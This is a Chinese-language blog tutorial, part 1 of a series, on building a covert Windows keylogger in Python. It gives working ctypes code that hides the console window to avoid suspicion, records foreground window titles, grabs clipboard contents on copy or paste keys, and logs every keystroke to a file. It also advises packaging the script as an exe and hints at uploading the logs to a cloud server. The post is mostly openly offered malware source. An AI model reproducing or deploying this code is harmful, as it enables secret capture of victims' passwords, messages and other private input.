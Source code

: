 ```yaml
---
title: 建立键盘记录器
description: 使用python编写键盘记录器part1.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


> 使用python编写键盘记录器part1.

<!-- more -->

如想有更好的了解请查看[原文](https://0x00sec.org/t/malware-writing-python-malware-part-1/11700)

## 一、导入标准库，隐藏控制台窗口

导入提供所需功能的Windows DLL。所需kernel32.dll与user32.dll，为避免怀疑隐藏控制台窗口。
	
```python
import ctypes    #提供C兼容的数据类型
import logging   #用于记录键盘记录

kernel32  = ctypes.windll.kernel32    #调用kernel32.dll
user32 = ctypes.windll.user32         #调用user32.dll

user32.ShowWindow(kernel32.GetConsoleWindow(),0)    #隐藏窗口
```

## 二、get_current_window()

获取当前窗口标题，以便知道记录的是用户使用的哪个程序。
	
```python
def get_current_window():    #抓取当前窗口标题
    #必需的WinAPI函数
    GetForegroundWindow = user32.GetForegroundWindow
    GetWindowTextLength = user32.GetWindowTextLengthW
    GetWindowText = user32.GetWindowTextW

    hwnd = GetForegroundWindow()    #获取当前窗口句柄
    length = GetWindowTextLength(hwnd)    #获取标题文本长度，将句柄乍为参数传递
    buff = ctypes.create_unicode_buffer(length + 1)    #创建临时缓存buff用于存储标题文本

    GetWindowText(hwnd, buff, length + 1)    #获取窗口标题并存储在buff中

    return buff.value    #返回buff的值
```

## 三、get_clipboard()

捕获剪贴板内容。tips：使用PyWin32可以用更少的代码完成些操作

```python
def get_clipboard():

    CF_TEXT = 1    #设置剪贴板格式

    #GlobalLock/GlobalUnlock 参数与返回类型
    kernel32.GlobalLock.argtypes = [ctypes.c_void_p]
    kernel32.GlobalLock.restype = ctypes.c_void_p
    kernel32.GlobalUnlock.argtypes = [ctypes.c_void_p]

    #GetClipboardData的返回类型
    user32.GetClipboardData.restype = ctypes.c_void_p
    user32.OpenClipboard(0)

    #所需剪贴板函数
    IsClipboardFormatAvailable = user32.IsClipboardFormatAvailable
    GetClipboardData = user32.GetClipboardData
    CloseClipboard = user32.CloseClipboard

    try:
        if IsClipboardFormatAvailable(CF_TEXT):    #如果CF_TEXT可用
            data = GetClipboardData(CF_TEXT)    #获取剪贴板数据的句柄
            data_locked = kernel32.GlobalLock(data)    #获取指向数据所在的内存位置的指针
            text = ctypes.c_char_p(data_locked)    #获取指向data_locked位置的char*(python中的字符串)指针
            value = text.value    #存储有用的值
            kernel32.GlobalUnlock(data_locked)    #递减锁计数
            return value.decode('utf-8')    #返回剪贴板的值
    finally:
        CloseClipboard()    #关闭剪贴板
```

## 四、get_keystrokes()

监听并记录敲击字符并记录。函数调用时需传入两个参数，日志文件存储目录和文件名。
按键记录使用while死循环，原因不希望键盘记录停止。但如果我们要同时执行其他任务，则需要使用多线程或单独的进程中与其他函数一并运行它。

```python
def get_keystrokes(log_dir,log_name):    #监听与记录敲击键盘内容
    #记录
    logging.basicConfig(filename=(log_dir + '\\' + log_name),level=logging.DEBUG,format='%(message)s')

    GetAsyncKeyState = user32.GetAsyncKeyState    #WinAPI函数，确定按键是向上还是向下
    special_keys = {
        0x08: 'BS',
        0x09: 'Tap',
        0x10: 'Shift',
        0x11: 'Ctrl',
        0x12: 'Alt',
        0x14: 'CapsLock',
        0x1b: 'Esc',
        0x20: 'Space',
        0x2e: 'Del',
    }
    current_window = None
    line = []    #存储点击的字符

    while True:
        if current_window != get_current_window():    #判断current_window内容不是当前打开的窗口
            current_window = get_current_window()    #将窗口标题放在current_window中
            logging.info(str(current_window))    #将当前窗口标题写入日志文件

        for i in range(1,256):    #256个ASCII字符
            if GetAsyncKeyState(i) & 1:    #如果点击某个键并匹配ASCII字符
                if i in special_keys:    #如果是特殊键，这样记录
                    logging.info("<{}>".format(special_keys[i]))
                elif i == 0x0d:    #如果键入<ENTER>，则记录然后清除行变量
                    logging.info(line)
                    line.clear()
                elif i ==0x63 or i == 0x43 or i == 0x56 or i ==0x76:    #如果点击字符'c'或'v'，则获取剪贴板数据
                    clipboard_data = get_clipboard()
                    logging.info("[CLIPBOARD] {}".format(clipboard_data))
                elif 0x30 <= i <= 0x5a:    #如果是字母数字字符，则追加到line
                    line.append(chr(i))
```

后续可自加代码，如定时将记录文件上传到云服务器 :grin: 

将py文件用pyinstaller打包成exe并运行，因为使用while True死循环，cpu占用较高，这点将在part2解决。

![part1_1](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/master/assets/images/article/python/1_1.png)

![part1_2](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/master/assets/images/article/python/1_2.png)

![part1_2](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/master/assets/images/article/python/1_3.png)

源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/part1/keylogger.py)